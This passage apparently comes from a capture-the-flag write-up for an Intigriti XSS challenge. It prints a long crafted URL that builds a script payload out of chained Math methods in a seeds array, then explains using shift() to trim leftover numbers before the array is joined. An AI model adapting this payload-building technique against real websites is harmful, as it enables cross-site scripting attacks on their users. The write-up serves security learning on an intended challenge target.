 These are the steps we executed till this point: https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push

### Joining The Array To Form The Payload String

After pushing the payload to seeds array, before joining it we need to get rid of the first numbers that are still existing in our array. You could see it with the Dev Tools if you lost track at this point when reading.

![Remaining Numbers](./imgs/remaining_nums_seeds.png)

We have 4 numbers that still exist at the beginning of the array. How do we get rid of them? we could use the <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/shift" target="_blank">shift()</a> array method which works like pop array method but in reverse returning the first element in the array and removing it from the array. Also it doesn't care about the passed argument and that's fine for us since we are passing it as an argument the number returned from the last called push method. Here is the seeds array, after running the shift method 4 times on the seeds array at the end of the current payload.

![Seeds Array At The End](./imgs/seeds_after_4_shifts.png)
